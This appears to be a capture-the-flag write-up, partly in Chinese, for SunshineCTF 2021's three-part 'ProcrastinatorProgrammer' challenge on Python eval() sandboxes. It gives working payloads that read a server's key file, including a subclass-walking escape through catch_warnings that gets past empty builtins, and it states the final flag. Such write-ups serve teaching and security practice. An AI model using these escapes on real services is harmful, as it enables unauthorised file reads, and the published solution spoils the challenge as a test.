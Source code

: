 # ProcrastinatorProgrammer

*I may have procrastinated security for `procrastinate.chal.2021.sunshinectf.org:65000`. I may have been watching too many Tom Cruise movies instead of releasing this... uh... last year.*

*But don't worry! The keys to the kingdom are split into three parts... you'll never find them all!*

*Flag will be given by our backend in the standard `sun{}` format, but make sure you put all the pieces together!*

---
1. Part One

```
Welcome to the ProcrastinatorProgrammer backend.
Please give me an equation! Any equation! I need to be fed some data to do some processing!I'm super secure, and can use all python! I just use `eval()` on your data and then whamo, python does all the work!Whatever you do, don't look at my ./key!

Give me an equation please!
```

`eval()`,使用`open('key','r').readlines()`得到flag的第一部分`sun{eval_is`

2. Part Two

```
Welcome to the ProcrastinatorProgrammer backend.
Please give me an equation! Any equation! I need to be fed some data to do some processing!Due to technical difficulties with the last challenge, I've upped my ante! Now I know it's secure!I'm super secure, and can use most python math! I just use `eval(client_input, \{\}, safe_math_functions)` on your data and then whamo, python does all the work!Whatever you do, don't look at my ./key!
   
Halt in the name of the law!
   
What was the ./key found in the previous challenge?
```

`eval(client_input, {}, safe_math_functions)`,使用`__builtins__['open']('key', 'r').read()`得到flag的第二部分`_safe_`

3. Part Three

```
Welcome to the ProcrastinatorProgrammer backend.
Please give me an equation! Any equation! I need to be fed some data to do some processing!Due to technical difficulties with the previous set, I had to remove math lib support! In fact the only thing this can do is add and subtract now!... I think. Google tells me that it's secure now! Well the second result anyhow.I'm super secure, and can use a bit of python math! I just use `eval(client_input, {'__builtins__':\{\}})` on your data and then whamo, python does all the work!Whatever you do, don't look at my ./key!
   
Halt in the name of the law!
   
What was the ./key found in the previous challenge?
```

`eval(client_input, {'__builtins__':{}})`,使用

```python
[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ =="catch_warnings"][0]()._module.__builtins__['open']('key', 'r').read()
```

得到flag的第三部分`only_if_you_ast_whitelist_first}`

**flag:**`sun{eval_is_safe_only_if_you_ast_whitelist_first}`



参考文章:

* [safe eval](http://lybniz2.sourceforge.net/safeeval.html)
* [python 沙箱逃逸与SSTI](https://misakikata.github.io/2020/04/python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E4%B8%8ESSTI/)

